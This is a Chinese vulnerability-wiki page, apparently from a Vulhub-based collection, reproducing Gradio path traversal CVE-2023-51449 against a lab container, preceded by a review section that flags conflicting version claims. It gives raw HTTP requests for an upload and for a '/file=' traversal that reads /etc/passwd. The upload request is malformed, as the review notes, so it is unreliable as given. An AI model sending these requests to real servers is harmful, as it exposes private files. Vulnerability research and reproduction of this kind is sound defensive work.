


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：简介4.11及更早与影响&lt;4.11、修复4.11.0冲突；实验4.10.0未鉴权

代码与实验材料：上传→缓存目录遍历两步，但multipart首边界错误地用结束--，Content-Length44与实际正文不符

来源证据范围：官方PR/GHSA与Vulhub背景

- **事实待核（1）**：影响版本上下界自相矛盾；依据：4.11同时被说受影响及已修复。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（2）**：上传报文原样不可用；依据：第一个boundary已关闭multipart，正文长度只44但有完整文件part。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Python Gradio 目录穿越漏洞 CVE-2023-51449

## 漏洞描述

Gradio 是一个 Python 库，允许用户无需编写前端代码即可为机器学习模型快速构建可视化 Web 界面。

在 Gradio 4.11 及更早版本中，如果未启用身份验证，知道文件路径的攻击者可以使用公共 URL 访问运行 Gradio 应用程序的服务器上的任意文件。

参考链接：

- [gradio-app/gradio#6833](https://github.com/gradio-app/gradio/pull/6833)
- https://github.com/gradio-app/gradio/security/advisories/GHSA-6qm2-wpxq-7qh2

## 漏洞影响

```
Gradio < 4.11.0
```

## 环境搭建

Vulhub 执行如下命令启动一个由 Gradio 4.10.0 编写的应用：

```
docker compose up -d
```

环境启动后，默认未开启身份验证。你可以通过 `http://your-ip:7860` 访问该应用。


## 漏洞复现

首先，使用 upload 接口上传任意文件，获取一个可访问的文件路径。

```
POST /upload HTTP/1.1
Host: your-ip:7860
Pragma: no-cache
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6MhLjMxNrDeOYqzr
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Length: 44

------WebKitFormBoundary6MhLjMxNrDeOYqzr--
Content-Disposition: form-data; name="files";filename="test"
Content-Type: application/octet-stream

test
------WebKitFormBoundary6MhLjMxNrDeOYqzr--
```




获得可访问的文件路径后，利用 file 接口配合目录穿越，即可读取服务器上的任意文件，例如 `/etc/passwd`：

```
GET /file=/tmp/gradio/a94a8fe5ccb19ba61c4c0873d391e987982fbbd3/../../../../../../etc/passwd HTTP/1.1
Host: your-ip:7860
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cache-Control: no-cache
Accept: */*
Accept-Encoding: gzip, deflate
```




## 漏洞修复

该漏洞在 `gradio==4.11.0` 中被修复。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
